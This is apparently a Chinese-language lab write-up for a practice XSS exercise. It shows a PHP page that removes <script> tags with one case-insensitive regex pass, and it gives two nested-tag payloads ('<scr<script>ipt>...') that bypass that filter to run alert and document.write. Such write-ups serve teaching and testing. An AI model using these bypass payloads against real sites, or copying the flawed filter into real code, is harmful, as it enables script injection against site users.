


# xss3

进入example3.php

直接查看源码
```php
<?php
    $name = $_GET['name'];
    $name = preg_replace('/<script>/i', "", $name);
    $name = preg_replace('/<\/script>/i', "", $name);
?>
```

这一次使用了/i来进行正则大小写忽略
但是呢这preg_replace一个函数只会对值扫描一次
扫描一次过后就会执行下一段代码了
所以这一次可以使用嵌套的方式进行绕过
就是说它检测到一次\<script>之后就对值进行替换为空值剩下的
就是\<script>了
第二条同理

payload1
```javascript
example3.php?name=<scr<script>ipt>alert('hello xss')</scr</script>ipt>
```

这样就可以绕过了
payload2
```javasecript
example3.php?name=<scr<script>ipt>document.write('hello xss')</scr</script>ipt>
```


:D\~~过关~~